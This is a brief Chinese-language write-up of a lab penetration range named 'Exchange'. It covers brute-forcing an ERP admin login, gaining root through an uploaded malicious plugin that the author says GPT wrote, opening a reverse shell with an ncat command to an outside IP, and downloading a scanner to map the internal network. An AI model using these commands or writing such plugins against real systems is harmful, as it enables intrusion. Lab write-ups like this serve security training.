


 靶标介绍： Exchange 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 Flag，分布于不同的靶机。 *注意：该靶场只有4个flag，如果提交完4个flag后仍未攻克成功，请关闭环境提交反馈。 收藏：未收藏 路径： 39.101.137.37 

这道题网上有wp，但是只是讲个大概，扫端口8000开放，是个ERP后台，爆破可得admin/123456，这个版本应该还有个泄露用户信息，再爆破。但是不知道为什么行。



后台可以上传插件，按照 [某开源ERP最新版SQL与RCE的审计过程 - hac425 - 博客园](https://www.cnblogs.com/hac425/p/14802032.html) 文章的说法，是可以上传恶意文件的，但是我不大熟悉java(坏)

不过好在gpt已经为我写好了插件，只要手动上传上去就能拿到shell，并且还是root

```bash
http://xxxxxx/api/plugin/cmdexec/c/run?cmd=ls
```

拿到第一个flag



随后尝试了反弹shell，但是不知道为什么通常的bash -i都没法用，base64编码后还是不行，所以下了个ncat

```bash
sudo apt install -y nmap
ncat 145.131.132.218 11451 -e /bin/bash  //IP填写自己的
```

成功拿到shell，随后建立一个较为持久的代理

为了探测内网，下载

```bash
wget https://gh-proxy.org/https://github.com/shmilylty/netspy/releases/download/v0.0.5/netspy_linux_amd64.zip
apt install unzip   #debian系
unzip netspy_linux_amd64.zip
./netspy -c 0.0.0.0/0 #扫描内网网段，可以事先用ip a查看
```

